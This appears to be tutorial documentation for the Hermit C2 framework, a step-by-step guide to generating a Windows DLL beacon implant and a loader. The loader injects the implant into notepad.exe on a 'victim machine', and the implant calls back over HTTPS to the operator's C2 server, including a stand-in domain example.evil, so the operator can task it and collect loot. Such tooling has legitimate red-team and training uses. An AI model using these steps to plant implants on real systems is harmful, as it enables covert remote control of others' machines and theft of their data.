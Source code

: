 # Simple DLL Injection

In this tutorial, we generate **DLL Implant** and **Loader** which loads the DLL into memory on Windows victim machine. Then make the C2 agent to communicate with our C2 server.   

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, we also need to start HTTPS listener:

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/https-<name>`.

## 3. Generate DLL Implant

At first, generate an implant DLL with `payload gen` command.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_dll.png)

In the settings wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

### Check Generated Payload

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:

![listener payloads](../assets/images/terminal/listener_payloads.png)

This command lists all payloads hosted on the listener.  
We can freely delete arbitrary payload by selecting a payload on this menu (of course, we shouldn't delete it now).  

This payload is stored under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it automatically, so don't move this payload.

## 4. Generate DLL Loader

Next, generate a DLL loader that loads the DLL implant and inject it on specific process.  
Run `payload gen` command again:

![payload gen](../assets/images/terminal/payload_gen_loader_dll_win_amd64_exe.png)

In the option wizard, choose the following options at least:

- What to generate?         -> `loader/dll`
- OS/Arch/Format            -> `windows/amd64/exe`
- Listener URL              -> (Same URL as when generating the DLL)
- Technique                 -> `dll-injection`
- Target Process to Inject  -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. 

### Transfer the Loader

**Now we need to transfer the generetad loader to Windows victim machine.**

## 5. Execute Loader

In Windows victime machine, at first, start `notepad.exe` as target process to inject our DLL into:

```ps title="Windows Victim Machine"
PS C:\Users\victim\Desktop> notepad
```

That's because we've specified `notepad.exe` (by default) as target process in the previous **Generate DLL Loader** section.  
By doing so, our loader can inject the DLL into the `notepad` process.

Finally we can execute the loader as below:

```ps title="Windows Victim Machine"
# Replace the filename with our own.
PS C:\Users\victim\Desktop> .\loader.exe
```

## 6. Switch to Agent Mode

After a few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:

![agents](../assets/images/terminal/agent_list.png)

To enter the agent mode, run `agent use` command on C2 server console:

![agent use](../assets/images/terminal/agent_use.png)

## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps ls` task:  

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > ps ls
```

This task prints all running processes on victim machine. 

After a few seconds, run the `task results` or `loot show` command to see the result:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
Hermit [agent-abcd] > loot show
```

If we cannot see the result yet, please repeat executing `loot show` command until the result will be shown.  

Looking at the task result, we can see that our DLL implant is running on the `Notepad.exe` process as below:

![loot ps](../assets/images/terminal/loot_show_ps.png)

That's because the loader injected the DLL into the `notepad.exe` process.

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command or close the `Notepad`.
Then run `exit` command to quit the agent mode.

